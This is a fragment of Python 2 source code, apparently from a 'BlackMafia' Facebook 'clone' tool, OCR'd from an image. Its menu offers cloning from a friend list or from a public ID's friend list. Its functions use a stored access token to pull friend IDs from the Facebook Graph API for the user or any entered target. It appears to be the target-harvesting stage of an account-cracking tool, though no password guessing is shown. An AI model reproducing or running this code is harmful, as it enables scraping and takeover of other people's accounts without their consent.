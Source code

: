 	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m1.\x1b[1;96mClone From Friend List."

	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m2.\x1b[1;96mClone Friend List Public ID."

	print "\033[1;97m-•◈•-\033[1;97m> \033[1;97m0.\033[1;97mBack"

	pilih_super()

def pilih_super():

	peak = raw_input("\n\033[1;96mChoose an Option>>> \033[1;97m")

	if peak =="":

		print "\x1b[1;94mFill in correctly"

		pilih_super()

	elif peak =="1":

		os.system('clear')

		print logo

		print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"

		jalan('\033[1;94mGetting IDs \033[1;94m...')

		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)

		z = json.loads(r.text)

		for s in z['data']:

			id.append(s['id'])

	elif peak =="2":

		os.system('clear')

		print logo

		idt = raw_input("\033[1;97m[•◈•] \033[1;94mEnter ID\033[1;97m: \033[1;97m")

		print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"

		try:

			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)

			op = json.loads(jok.text)

			print"\033[1;97mName\033[1;97m:\033[1;96m "+op["name"]

		except KeyError:

			print"\x1b[1;97mID Not Found!"

			raw_input("\n\033[1;97m[\033[1;93mBack\033[1;97m]")

			super()

		print"\033[1;94mGetting IDs\033[1;97m..."

		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
